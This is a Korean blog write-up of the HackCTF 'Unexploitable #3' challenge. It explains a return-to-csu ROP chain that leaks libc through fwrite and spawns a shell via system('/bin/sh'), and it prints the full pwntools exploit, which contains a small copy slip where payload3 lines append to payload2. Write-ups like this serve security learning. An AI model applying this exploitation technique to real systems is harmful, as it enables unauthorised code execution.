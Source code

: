 ```yaml
---
layout: post
title:  "HacCTF Unexploitable #3 write-up"
date:   2020-03-21 19:45:55
image:  hackctf_unex3.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] Unexploitable #3

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled.png)

NX비트말곤 딱히 걸려있는게 없다.


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%201.png)

Unexploitable 의 3번째 문제로서 동일한게 한번 입력을 받고 종료된다.


**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%202.png)

메인을 보면, fwrite와 fgets 가 끝이다. fwrite를 이용하여 libc leak을 하면 될 것이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%203.png)

또한 gift 라는 함수가 있는데 fwrite함수가 있다. 어셈블리로보면

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

요렇게 되어있다. 어떻게 사용하면 될지 일단 차차 생각해보자.



### 2. 접근방법

---

fgets로 충분히 리턴주소를 덮을수 있다. 그렇다면 fwrite를 이용해 leak을 일으킬라면 4개의 인자를 처리할 수 있는 가젯이 필요하다. 하지만 역시 그런 이쁜 가젯은 현재 존재하지 않는다.

현재 csu_ini 함수가 존재하는데, 이를 이용한다고 쳐도 3개의 인자만 처리가능 할 뿐, 나머지 하나인 rdx 관련 인자를 처리불가능하다. 그럼 혹시 아까 gift 함수를 괜히 준게 아닐꺼 같다는 생각이든다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

0x400658 주소를 보면 mov rcx, [rdi] 가 있다. 이부분을 이용하여 rcx를 이용하면 될 것이다.

현재 가젯에 pop rdi; ret; 는 존재하기 때문에 먼저 rdi에 원하는 값을 넣고, gitf 함수의 가젯을 이용하면 rcx에 아까 넣어둔 rdi 값이 들어갈 것이다.


- **첫번째 시나리오**
    1. pop rbp; ret; 를 이용해서 .bss 영역에 /bin/sh 저장하기
    2. libc 주소 leak을 해야함 => fwrite() 함수이용할것임
    2.1 RTC 를 이용해서 rdi, rsi, rdx 레지스터에 3개 인자를 넣고
    2.2 마지막 RTC의 ret를 pop rdi;ret로 다시 가게함 => 여기서 rdi에 rcx에 넣을 값 다시 저장
    2.3 gift함수의 mov rcx, [rdi];ret; 를 이용해서 rcx(stdout) 저장
    2.4 이를 이용하여 fgets 주소 leak하기
    3. leak된 주소를 이용하여 libc_base 주소를 구하고 ROP 진행

기존에 Unexploitable 2 에서 진행했던 방법대로 처음에 진행을 했었다. 하지만 어떤 이유인지 자꾸 에러가 발생하여서 디버깅을 통해 확인을 해보았다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%205.png)

pop rbp; ret; 를 이용하여 bss 영역에 "/bin/sh" 문자열을 잘 저장하였고 gift함수의 가젯을 이용하여 rcx에 stdout_got 주소를 잘 저장하였다. 따라서 총 4개의 인자를 처리할 수 있는 세팅이 완료됬고, csu의 " call [r12 + rbx*8] "이 진행되어 원래대로라면 fwrite함수가 호출되어 fgets의 주소가 leak되야 한다.

하지만 현재 rcx에 stdout_got가 들어가 있긴 하지만, "pop rbp;ret;" 가 진행되고 setvbuf, fwrite, 함수를 건너뛰고 바로 main+98로 다시 갔기 때문에 stdout이 한번도 사용되지 않아 got에 실 주소가 들어가있지 않고 위 사진처럼 0x400743주소가 들어가 있다.

따라서 " call [r12 + rbx*8] " 이 실행됬을 때 에러가 나는 것이다. 결국 다른 시나리오를 이용해야한다.

- **두번째 시나리오**
    1. 바로 libc 주소 leak하기
        - 첫번째 ROP를 진행할때는 이미 위에 setvbuf와 fwrite가 실행된 상태이므로 stdout_got에 실제 주소가 들어가 있음. 따라서 csu가젯과 gift 가젯을 이용하여 rcx에 stdout_got주소를 첫번째 시나리오와 동일하게 삽입하면 됨
        - 그런뒤 다시 main으로 ret하게 만듬
    2. fgets를 이용하여 bss영역에 /bin/sh 삽입
    3. pop rdi;ret 가젯을 이용하여 /bin/sh 문자열이 존재하는 bss 영역을 rdi에 저장하고 system함수 호출

두번째 시나리오대로 코드를 짜면 정상적으로 쉘이 떨어진다.



### 3. 풀이

---

최종익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3034)
    #p=process("./Unexploitable_3")
    e=ELF("./Unexploitable_3")
    #gdb.attach(p)
    
    bss=0x601038
    
    gadget_1=0x40073A # pop rbx,rbp,r12,r13,r14,r15,ret;
    gadget_2=0x400720 # mov rdx,r13; mov rsi,r14; mov esi,r15d; call [r12+rbx*8]; add rbx,1; cmp rbx,rbp 
    gadget_3=0x400658 # mov rcx,[rdi]; ret;
    gadget_4=0x400743 # pop rdi; ret;
    
    p.recvuntil("you!\n")
    
    payload2 = "A"*0x18
    payload2 += p64(gadget_4)
    payload2 += p64(0x601050) # for rcx
    payload2 += p64(gadget_3)
    payload2 += p64(gadget_1)
    payload2 += p64(0) # rbx
    payload2 += p64(1) # rbp
    payload2 += p64(e.got['fwrite']) # r12
    payload2 += p64(6) # r13
    payload2 += p64(1) # r14
    payload2 += p64(e.got['fwrite']) # r15
    payload2 += p64(gadget_2)
    payload2 += p64(0)
    payload2 += p64(0) #rbx
    payload2 += p64(1) #rbp
    payload2 += p64(0) #r12
    payload2 += p64(0) #r13
    payload2 += p64(0)  #r14
    payload2 += p64(0) #r15
    payload2 += p64(0x40065f)
    pause()
    p.sendline(payload2)
    
    fwrite_addr=u64(p.recv(6)+"\x00\x00")
    log.info(hex(fwrite_addr))
    libc_base=fwrite_addr-0x06e6e0
    
    payload3 = "A"*0x18
    payload2 += p64(gadget_4)
    payload2 += p64(0x601060) # for rcx
    payload2 += p64(gadget_3)
    payload3 += p64(gadget_1)
    payload3 += p64(0) # rbx
    payload3 += p64(1) # rbp
    payload3 += p64(e.got['fgets']) # r12
    payload3 += p64(libc_base+0x3c48e0) # r13
    payload3 += p64(8) # r14
    payload3 += p64(bss) # r15
    payload3 += p64(gadget_2)
    payload3 += p64(0)
    payload3 += p64(0) #rbx
    payload3 += p64(1) #rbp
    payload3 += p64(0) #r12
    payload3 += p64(0) #r13
    payload3 += p64(0) #r14
    payload3 += p64(0) #r15
    payload3 += p64(gadget_4)
    payload3 += p64(bss)
    payload3 += p64(libc_base+0x045390)
    
    p.recvuntil("you!\n")
    p.sendline(payload3)
    p.send("/bin/sh\x00")
    p.interactive()



### 4. 몰랐던 개념

---

방법은 알았지만, stdout_got 때문에 삽질을 꽤 오래했다. stdout, stdin도 libc에 wrapping되어있는 함수인것을 이제 알았다. 따라서 해당 함수들도 plt와 got가 존재한다.